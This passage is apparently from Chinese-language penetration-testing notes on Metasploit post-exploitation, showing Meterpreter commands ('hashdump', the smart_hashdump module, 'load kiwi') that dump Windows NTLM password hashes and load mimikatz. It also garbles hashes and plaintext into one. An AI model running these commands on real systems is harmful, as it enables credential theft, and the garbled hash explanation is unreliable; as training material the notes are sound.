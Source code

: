 

#### hash与明文密码读取

```
hashdump

run  post/windows/gather/smart_hashdump    (管理员权限执行)
```



如下我们就得到了本地账户的hash值，是用NTLM加密得到的明文

![image-20210811172418590](msf提权.assets/image-20210811172418590.png)



下面加载mimikatz/kiwi模块

```
load kiwi
```

![image-20210811172644428](msf提权.assets/image-20210811172644428.png)
